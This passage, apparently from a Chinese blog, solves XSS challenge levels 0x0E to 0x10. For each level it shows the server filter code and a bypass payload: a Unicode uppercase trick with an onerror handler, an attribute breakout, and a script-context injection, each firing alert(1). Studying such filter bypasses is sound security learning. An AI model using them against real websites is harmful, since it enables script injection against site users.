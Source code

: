 
## 0x0E

Server code

<pre class="wp-block-code"><code>function render (input) {
  input = input.replace(/&lt;(&#91;a-zA-Z])/g, '&lt;_$1')
  input = input.toUpperCase()
  return '&lt;h1>' + input + '&lt;/h1>'
}</code></pre>

将尖括号后面追加一个下划线, 并且将所有字符大写,匹配了所有<与字母的组合。

这题很离谱，答案更离谱，逆向思维，还真有字符的大写是S的:  **ſ** ， <a rel="noreferrer noopener" href="https://www.thetype.com/2009/10/1577/" target="_blank" rel="nofollow" >https://www.thetype.com/2009/10/1577/</a>

依照这种思路，找到土耳其语中**_ı_**的大写是i，payload如下：

```
<ımg src=# onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

## 0x0F

Server code

<pre class="wp-block-code"><code>function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/&lt;/g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `&lt;img src onerror="console.error('${escapeHtml(input)}')">`
}</code></pre>

编码后html标签解析代码时, 被过滤编码的字符仍然会被还原来执行,等于是过滤了个寂寞。`'); alert(1); //`

## 0x10

Server code

<pre class="wp-block-code"><code>function render (input) {
  return `
&lt;script>
  window.data = ${input}
&lt;/script>
  `
}</code></pre>

`'';alert(1)`

## 0x11
